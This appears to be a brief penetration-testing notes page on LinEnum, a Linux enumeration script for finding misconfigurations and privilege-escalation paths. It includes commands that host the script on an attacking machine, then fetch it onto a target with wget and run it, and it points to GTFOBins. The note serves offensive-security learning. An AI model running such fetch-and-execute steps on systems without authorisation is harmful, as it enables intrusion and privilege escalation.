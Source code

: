 --- ---

<h2>General</h2>

LinEnum is a bash script designed to automate the process of searching for known vulnerabilities and misconfigurations on a Linux system. It can be used as a standalone tool or as part of a larger process to assess the security of a system. LinEnum performs a number of checks, including:

-   Enumerating the kernel and system information
-   Searching for files with potentially dangerous permissions
-   Checking for any installed software that is known to have vulnerabilities
-   Checking for misconfigurations that may allow an attacker to gain unauthorized access

---

<h2>Commands</h2>

```
# Attacking Machine
python3 -m http.server

# Target Machine
wget http://IP/Name.sh
chmod +x NAME.sh
./NAME.sh
```

 '---> GTFOBins Might be useful from the results https://gtfobins.github.io/

---

<h2>LinEnum</h2>

**All Information** --->  [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)

<iframe src="https://github.com/rebootuser/LinEnum
" width="100%" height="1300"></iframe>